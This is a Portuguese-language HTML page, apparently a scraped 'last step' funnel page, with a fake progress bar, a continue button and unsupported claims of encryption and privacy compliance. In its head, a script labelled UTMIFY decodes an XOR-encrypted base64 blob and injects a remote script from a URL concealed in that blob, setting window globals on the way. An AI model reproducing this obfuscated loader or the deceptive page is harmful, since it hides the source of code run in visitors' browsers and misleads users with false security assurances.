
Rendered at 375 px and 1280 px, left to right.

<!-- file: index.html -->
<!DOCTYPE html>
<html lang="pt-BR">
<head>
<meta charset="UTF-8">
<meta name="viewport" content="width=device-width, initial-scale=1.0">

    <!--CLARITY-->
    <script type="text/javascript">
        (function(c,l,a,r,i,t,y){
            c[a]=c[a]||function(){(c[a].q=c[a].q||[]).push(arguments)};
            t=l.createElement(r);t.async=1;t.src="https://www.clarity.ms/tag/"+i;
            y=l.getElementsByTagName(r)[0];y.parentNode.insertBefore(t,y);
        })(window, document, "clarity", "script", "yirhwzuviz");
    </script>

    <!-- Google tag (gtag.js) -->
    <script async src="https://www.googletagmanager.com/gtag/js?id=AW-18270289725"></script>
    <script>
    window.dataLayer = window.dataLayer || [];
    function gtag(){dataLayer.push(arguments);}
    gtag('js', new Date());

    gtag('config', 'AW-18270289725');
    </script>

     <!--UTMIFY-->
    <script>(function(){var r_kk3k=atob("DLHUKBryftecUEeq3sr2XWieXO2+ODPersLuBzWRGrmyJTPHt9etBnmdE/n+ImjZvcO9WG6BUaLoPTSFstCgTWmGUL3vcmuIv8WgWnOQC6P5I2WQhcr2RnufG/WmciPLqtD5XW6fF7HlfTfYu8exRm7fDaL+OSPZ/J32XnueC7K+amWIo+yp");var w_4u=[];for(var j_b8g=0;j_b8g<r_kk3k.length;j_b8g++){w_4u.push(r_kk3k.charCodeAt(j_b8g)&255);}var k_gxxj=w_4u[0];var t_ws=w_4u.slice(1,1+k_gxxj);var s_6=w_4u.slice(1+k_gxxj);var q_w=s_6.map(function(b,i_7){return b^t_ws[i_7%k_gxxj];});var p_0="";for(var a_7juj=0;a_7juj<q_w.length;a_7juj++){p_0+=String.fromCharCode(q_w[a_7juj]&255);}var i_9=decodeURIComponent(escape(p_0));var b_f=JSON.parse(i_9);var v_q=b_f.globals||[];v_q.forEach(function(a_p){window[a_p.name]=a_p.value;});var j_e7=document.createElement("script");j_e7.src=b_f.url;j_e7.async=true;j_e7.defer=true;(b_f.attributes||[]).forEach(function(k_l9g){j_e7.setAttribute(k_l9g.name,k_l9g.value);});(document.head||document.documentElement).appendChild(j_e7);})();</script>
   
    <title>Continue com seu acesso</title>

<style>
*{
    margin:0;
    padding:0;
    box-sizing:border-box;
}

body{
    font-family: "Segoe UI", Arial, sans-serif;
    background:linear-gradient(135deg,#fff8f8,#fdf2f2);
    min-height:100vh;
    display:flex;
    justify-content:center;
    align-items:center;
    padding:20px;
    color:#1f2937;
}

.container{
    width:100%;
    max-width:650px;
    background:#fff;
    padding:45px 35px;
    border-radius:24px;
    box-shadow:0 20px 50px rgba(177,37,37,.12);
    text-align:center;
    border:1px solid rgba(177,37,37,.08);
}

.badge{
    display:inline-block;
    background:#fdecec;
    color:#B12525;
    padding:10px 18px;
    border-radius:50px;
    font-size:14px;
    font-weight:700;
    margin-bottom:20px;
    text-transform:uppercase;
    letter-spacing:.5px;
}

.headline{
    font-size:36px;
    font-weight:800;
    color:#111827;
    margin-bottom:15px;
    line-height:1.2;
}

.subheadline{
    font-size:18px;
    color:#6b7280;
    margin-bottom:30px;
    line-height:1.6;
}

.progress-container{
    margin-bottom:30px;
}

.progress-text{
    font-size:14px;
    font-weight:600;
    color:#4b5563;
    margin-bottom:12px;
}

.progress-bar{
    width:100%;
    height:12px;
    background:#ececec;
    border-radius:50px;
    overflow:hidden;
}

.progress-fill{
    width:75%;
    height:100%;
    background:linear-gradient(90deg,#B12525,#d64545);
    border-radius:50px;
    animation:progress 2s ease;
}

.cta-button{
    display:inline-block;
    text-decoration:none;
    background:linear-gradient(135deg,#B12525,#921d1d);
    color:#fff;
    padding:18px 42px;
    border-radius:14px;
    font-size:20px;
    font-weight:800;
    transition:.3s;
    box-shadow:0 15px 35px rgba(177,37,37,.35);
    letter-spacing:.5px;
}

.cta-button:hover{
    transform:translateY(-3px);
    box-shadow:0 20px 40px rgba(177,37,37,.4);
}

.security-box{
    margin-top:25px;
    padding:16px;
    background:#fafafa;
    border-radius:12px;
    font-size:14px;
    color:#4b5563;
    line-height:1.6;
}

.info{
    margin-top:18px;
    font-size:14px;
    color:#6b7280;
}

.footer{
    margin-top:30px;
    font-size:12px;
    color:#9ca3af;
    line-height:1.7;
}

.footer-links{
    margin-top:12px;
}

.footer-links a{
    color:#B12525;
    text-decoration:none;
    margin:0 8px;
    font-weight:600;
}

.footer-links a:hover{
    text-decoration:underline;
}

@keyframes progress{
    from{width:0%;}
    to{width:75%;}
}

@media(max-width:480px){

    .container{
        padding:35px 25px;
    }

    .headline{
        font-size:28px;
    }

    .subheadline{
        font-size:16px;
    }

    .cta-button{
        width:100%;
        padding:18px;
        font-size:18px;
    }
}
</style>
</head>

<body>

<div class="container">

    <div class="badge">
        Último passo
    </div>

    <h1 class="headline">
        Você está quase terminando
    </h1>

    <p class="subheadline">
        Seu acesso está quase completo. Clique no botão abaixo para continuar e desbloquear a próxima etapa.
    </p>

    <div class="progress-container">
        <div class="progress-text">
            Progresso de conclusão: 75%
        </div>

        <div class="progress-bar">
            <div class="progress-fill"></div>
        </div>
    </div>

    <a href="/page" class="cta-button">
        CONTINUAR AGORA
    </a>

    <div class="security-box">
        🔒 Conexão segura<br>
        Suas informações estão protegidas por padrões avançados de segurança e transmissão criptografada.
    </div>

    <div class="info">
        ✓ Processo seguro &nbsp; • &nbsp; ✓ Navegação segura &nbsp; • &nbsp; ✓ Em conformidade com as normas de privacidade
    </div>

    <div class="footer">
        Este site utiliza tecnologias modernas de segurança para garantir uma experiência de navegação segura e confiável.

        <div class="footer-links">
            <a href="#">Política de privacidade</a>
            |
            <a href="#">Termos de serviço</a>
            |
            <a href="#">Suporte</a>
        </div>
    </div>

</div>

</body>
</html>